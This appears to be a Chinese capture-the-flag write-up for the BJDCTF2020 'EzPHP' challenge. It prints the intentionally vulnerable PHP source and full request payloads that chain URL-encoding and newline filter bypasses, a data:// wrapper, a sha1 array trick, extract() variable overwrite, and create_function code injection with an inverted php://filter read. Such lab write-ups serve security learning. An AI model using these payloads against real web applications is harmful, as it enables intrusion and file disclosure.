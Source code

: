 # \[BJDCTF2020]EzPHP

## \[BJDCTF2020]EzPHP

## 考点

* base32
* `$_SERVER['QUERY_STRING']`不进行URL解码，用`URL编码`绕过
* `$_GET['debu']`要是aqua\_is\_cute但又不能是aqua\_is\_cute，用`%0a`换行符绕过
* `$_REQUEST`中参数值不能出现字母，<mark style="color:orange;">`$_REQUEST`</mark><mark style="color:orange;">是优先读取POST传参再读取GET传参，可以先POST再GET</mark>
* `file_get_contents($file)`一般配合`php://input`，还可以配合`data://text/plain,debu_debu_aqua`
* `$code('', $arg);`对应`create_function`
* 代码执行可以看一下`get_defined_vars()`

## wp

F12给了一段密文`GFXEIM3YFZYGQ4A=`

目测是base家族的，64，32，16等等试一下，发现是base32，解码是`1nD3x.php`

给了源码

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?> 
```

一点一点看，`$_SERVER['QUERY_STRING']`是get方式传入的内容，它不会进行URL解码，可以用URL编码可以绕过这个限制

然后`$_GET['file']`不能有`http(s)`，`$_GET['debu']`要是`aqua_is_cute`，这个可以用换行符绕过

`?deb%75=aq%75a_is_c%75te%0a&file=a`

![](<../../.gitbook/assets/image (5).png>)



然后是\_REQUEST中参数值不能出现字母，\_REQUEST是优先读取POST传参再读取GET传参，可以先POST再GET

```
GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=a

POST file=1&debu=1
```

寄了，BUUOJ环境有问题，本地复现吧。访问`1nD3x.php?file=***`，明显应该到`Aqua is the cutest five-year-old child in the world!`那里的`die`的，但是得到的回显还是`fxck you! I hate English!`

接着是要满足`file_get_contents($file)`的结果为`debu_debu_aqua`，一般这种可以用`php://input`，但是这里已经有了POST的内容，可以换成data伪协议。

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61
POST file=1&debu=1
```

然后是经典的绕HASH，`sha1($shana) === sha1($passwd) && $shana != $passwd`，直接传数组即可

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2

POST file=1&debu=1
```

然后看到`extract($_GET["flag"]);`，存在变量覆盖。最后一段代码是对`$code`和`$arg`进行操作，但是题目并不能直接传参，那就是要用变量覆盖进行传参。

然后`if(preg_match('/^[a-z0-9]*$/isD', $code)`是code中不能有字母数字，在后面一个正则过滤了很多关键字，这样`$arg`就不是很好绕过了

最后的`$code('', $arg);`是`create_function`，这个出现了很多次了。

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}var_dump(a);//



GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67%5B%63%6F%64%65%5D=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67%5B%61%72%67%5D=%7D%76%61%72%5F%64%75%6D%70%28%61%29%3B%2F%2F
POST file=1&debu=1
```

![](<../../.gitbook/assets/image (23) (1).png>)

成功输出，最后是怎么获取flag。代码执行没有过滤call\_user\_func，文件包含没有过滤require，目录扫描没有过滤DirectoryIterator

其实一开始想的是无参RCE和取反，后面看了wp一下，在get\_defined\_vars()中看到一个奇怪的变量`ffffffff11111114ggggg`，意思就是flag在`rea1fl4g.php` ，应该是文件读取了。

```
require(php://filter/read=convert.base64-encode/resource=rea1fl4g.php)
```

最后用取反绕过滤

```
<?php
echo urlencode(~'php://filter/read=convert.base64-encode/resource=rea1fl4g.php');

// %8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F

require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F))
```

最后的payload

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67%5B%63%6F%64%65%5D=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67%5B%61%72%67%5D=%7D%72%65%71%75%69%72%65%28%7E%28%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F%29%29%3B%2F%2F
POST file=1&debu=1
```

解码即可

